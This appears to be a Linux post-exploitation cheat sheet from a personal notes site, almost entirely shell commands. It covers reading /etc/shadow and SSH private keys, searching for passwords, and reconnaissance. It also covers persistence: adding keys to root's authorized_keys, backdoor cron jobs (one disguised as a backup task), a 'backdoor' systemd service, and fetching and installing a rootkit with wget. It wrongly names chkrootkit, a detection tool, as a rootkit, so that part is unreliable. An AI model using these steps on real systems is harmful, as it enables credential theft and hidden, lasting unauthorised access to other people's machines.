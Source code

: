 ```yaml
---
layout: notes
permalink: /notes/linux/post/
title: Linux Post Exploitation
---
```


# Linux Post Exploitation

## Data Collection

### Sensitive Files
```bash
# Common locations
/etc/shadow
/etc/passwd
/etc/ssh/ssh_host_*
/home/*/.ssh/id_*
/root/.ssh/id_*

# Find additional sensitive files
find / -name "*.pem" 2>/dev/null
grep -r "password" / 2>/dev/null
cat /var/www/html/config.php
cat /etc/nginx/nginx.conf
cat /etc/apache2/sites-enabled/*
```

### Network Information
```bash
# Gather network data
ip neighbor
route -n
cat /etc/hosts
cat /etc/resolv.conf

# External network mapping
nmap -sn <network>

# Check DNS for pivoting
dig <domain>
```

### Process Information
```bash
ps auxf
pstree -a
lsof -i

# Check scheduled tasks
crontab -l
cat /etc/cron.*
cat /etc/cron.d/*

# Real-time process monitoring
pspy64: `./pspy64`
```

## Persistence Techniques

```bash
# Generate SSH key
ssh-keygen -t rsa -b 4096

# Copy public key
echo "your_public_key" >> /root/.ssh/authorized_keys
echo "your_public_key" >> /home/user/.ssh/authorized_keys

# Modify SSH config
echo "AllowUsers yourusername" >> /etc/ssh/sshd_config
ssh-copy-id user@target
```

### Cron Jobs
```bash
# Add persistent cron job
echo "* * * * * /path/to/backdoor" >> /var/spool/cron/crontabs/root

# Mask cron job as legit task
echo "0 0 * * * /usr/bin/backup.sh" >> /etc/cron.daily/backup

# Verify cron jobs
crontab -u root -l
```

### Service Creation
```bash
# Create systemd service
cat > /etc/systemd/system/backdoor.service << EOF
[Unit]
Description=Backdoor Service

[Service]
ExecStart=/path/to/backdoor

[Install]
WantedBy=multi-user.target
EOF

# Enable and start service
systemctl enable backdoor.service
systemctl start backdoor.service

# Check service status
systemctl status backdoor.service
```

### Rootkit Installation
```bash
# Install simple rootkit (example: chkrootkit or knark)
wget <rootkit_url> -O rootkit.tar.gz
tar -xzf rootkit.tar.gz
cd rootkit
make install
```

### Environmental Variables
```bash
# Add persistent environment variable
echo "export PATH=$PATH:/path/to/backdoor" >> /root/.bashrc
```